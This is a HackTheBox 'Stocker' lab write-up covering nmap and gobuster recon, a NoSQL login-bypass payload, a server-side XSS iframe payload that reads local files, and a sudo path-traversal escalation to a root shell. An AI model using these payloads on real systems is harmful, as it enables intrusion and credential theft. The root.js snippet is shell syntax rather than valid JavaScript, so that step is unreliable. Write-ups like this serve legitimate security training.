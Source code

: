 ```yaml
---
description: HackTheBox Stocker Writeup
---
```


# \[Easy] Stocker

### Recon <a href="#recon" id="recon"></a>

#### Services <a href="#services" id="services"></a>

`nmap`: **22 - SSH** and port **80 - nginx**.

```nmap
PORT      STATE  SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|  3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|  256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp    open  http        nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

#### Subdomains <a href="#subdomains" id="subdomains"></a>

`gobuster`: dev.stocker.htb

```bash
➜  ~ gobuster vhost --url http://stocker.htb/ --wordlist ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 100
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb/
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        /home/ennl/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/07 19:01:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```

#### Website <a href="#website" id="website"></a>

So now, we have plain `stocker.htb` page without anything, and subdomain page `dev.stocker.htb` with redirect to `dev.stocker.htb/login`.

### Exploitation <a href="#exploitation" id="exploitation"></a>

#### Authentication bypass via NoSQL <a href="#authentication-bypass-via-nosql" id="authentication-bypass-via-nosql"></a>

[https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

I found that the login is susceptible to NoSQL Authentication Bypass after experimenting with various methods. We can bypass auth using

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

so, POST-request in BurpSuite gonna be look like:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AglWx1W4l6AXfs4gYZq-X2EzGPvkRAknn.aTADasosaVSVpIrCRQR6U5P%2BRe8JeRJwk6aNyTMXe1Q
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Once the request has been modified, you get an auth bypass:

<figure><img src="http://localhost:1313/stocker/0.png" alt=""><figcaption></figcaption></figure>

In browser:

<figure><img src="http://localhost:1313/stocker/1.png" alt=""><figcaption></figcaption></figure>

### Client-Side XXS <a href="#client-side-xxs" id="client-side-xxs"></a>

Now, via page `/stock` add product to basket and intercept HTTP-request with BurpSuite.

<figure><img src="http://localhost:1313/stocker/1.png" alt=""><figcaption></figcaption></figure>

We have an API `/api/order` to make an order, which sends the \`\`\`basket" as a parameter.

And order details are available on /api/po/ID.V

`/api/order` is a dynamic PDF generator, which has vulnerable to Server Side XSS parameter `title`.

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf" %}

```
{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<iframe src=file:///etc/passwd height='1500'  width='700' ></iframe>","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":3}]}
```

Response:

<figure><img src="http://localhost:1313/stocker/3.png" alt=""><figcaption></figcaption></figure>

Do the same with `file:///var/www/dev/index.js` and get user SSH password.

![1.png](http://localhost:1313/stocker/4.png)

### Privelege Escalation <a href="#privelege-escalation" id="privelege-escalation"></a>

`sudo -l`:

```bash
angoose@stocker:~$ sudo -l 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

We got a wildcard in the path, which means we can put another path in place of that wildcard, but we still should use node.js.

[https://gtfobins.github.io/gtfobins/node/](https://gtfobins.github.io/gtfobins/node/)

Create a `root.js` in user dir:

```bash
angoose@stocker:~$ nano root.js

node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Then, start it by:

```bash
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/root.js
```

And get the root:

```bash
bash-5.0# cat /root/root.txt

f7723bd4b96f3cd26788fcb4f4714b08

```
